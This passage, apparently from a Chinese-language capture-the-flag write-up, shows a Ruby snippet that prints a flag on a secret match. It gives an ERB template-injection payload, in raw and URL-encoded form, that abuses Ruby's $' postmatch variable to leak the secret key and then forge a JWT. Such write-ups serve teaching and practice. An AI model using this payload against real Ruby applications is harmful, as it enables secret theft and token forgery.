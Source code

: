 ```ruby
unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end
```

这一段中如果 secret 匹配正确就会输出 flag, 而 Ruby 中有全局变量 **`$POSTMATCH`, 表示上个匹配的变量**; 

直接构造 payload 就可以把 secret 读出来:

```
/work?SECRET=&name=<%=$'%>&do=<%=$'%> is working

编码后:
/work?SECRET=&name=%3c%25%3d%24%27%25%3e&do=%3c%25%3d%24%27%25%3e%20is%20working
```

![18-7.png](18-7.png)

得到了秘钥, 那么 JWT 也就被破解可以任意编辑了:

![18-8.png](18-8.png)
